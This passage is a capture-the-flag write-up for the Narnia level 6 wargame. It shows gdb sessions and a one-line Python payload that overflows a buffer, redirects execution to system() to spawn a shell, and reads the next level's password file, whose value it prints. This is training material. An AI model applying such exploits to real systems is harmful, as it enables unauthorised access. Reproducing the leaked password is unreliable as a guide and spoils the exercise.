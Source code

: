 ```nasm
(gdb) run AAAAAAAACCCC BBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 AAAAAAAACCCC BBBB

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x41414141
0xffffd688:	0x41414141	0x43434343	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) x/x $eax
0x43434343:	Cannot access memory at address 0x43434343
```

Looks very good ! Now, the idea would be to overwrite the return address with the address of *system()* and call a shell.

```nasm
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e4c850 <system>
(gdb) run $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/16wx $esp
0xffffd678:	0xffffd684	0x42424242	0xf7fc5300	0x413b6873
0xffffd688:	0x41414141	0xf7e4c850	0x00000000	0x00000000
0xffffd698:	0x00000000	0xf7e2a286	0x00000003	0xffffd734
0xffffd6a8:	0xffffd744	0x00000000	0x00000000	0x00000000
(gdb) continue
Continuing.
$
```

We got a shell ! Now, let's do the same outside GDB.

```bash
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "sh;" + 5 * "A" + "\x50\xc8\xe4\xf7" + " BBBB"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu
``` 

Done !

## Narnia 07 Solution
